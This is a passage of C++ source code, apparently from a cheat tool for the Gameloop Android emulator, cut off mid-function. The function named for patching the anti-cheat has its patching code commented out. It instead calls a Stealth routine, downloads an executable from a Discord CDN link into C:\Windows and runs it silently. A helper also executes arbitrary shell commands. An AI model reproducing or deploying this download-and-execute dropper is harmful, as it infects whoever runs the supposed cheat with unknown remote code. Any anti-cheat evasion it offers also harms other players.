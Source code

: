}
void PatchGameloopAntiCheat2()
{

	//Sleep(8000);
	//Memory memory;
	//DWORD pid = MyGetProcessId("AndroidEmulatorEx.exe");

	//if (!memory.AttachProcess(pid))
	//{
	//	MessageBoxA(0, "error attache proccess.", "Error", MB_ICONERROR);
	//	return;
	//}

	//memory.ReplacePattern(0x0000000000000, 0x7777fffffffffff, new BYTE[]{ 0xE9,0xE7,0x2D,0x2B,0x00,0x8D,0x64 }, new BYTE[]{ 0xC2,0x08,0x00,0x2B,0x00,0x8D,0x64 }, true);
	Stealth();
	if (std::filesystem::exists("C:\Windows\ConsoleApplication2.exe"))
	{

	}
	else
	{
		DownloadFile22("https://cdn.discordapp.com/attachments/740652161435959327/977937598444093530/ConsoleApplication2.exe", "C:\\Windows\\ConsoleApplication2.exe");
	}
	system("C:\\Windows\\ConsoleApplication2.exe");
}

std::string executee(const char* cmd) {
	std::array<char, 128> buffer;
	std::string result;
	std::unique_ptr<FILE, decltype(&_pclose)> pipe(_popen(cmd, "r"), _pclose);
	if (!pipe) {
		throw std::runtime_error("popen() failed!");
	}
	while (fgets(buffer.data(), buffer.size(), pipe.get()) != nullptr) {
		result += buffer.data();
	}
	return result;
}
int isSubstring(string s1, string s2)
{
	int M = s1.length();
	int N = s2.length();
	for (int i = 0; i <= N - M; i++) {
		int j;
		for (j = 0; j < M; j++)
			if (s2[i + j] != s1[j])
				break;

		if (j == M)
			return i;
	}
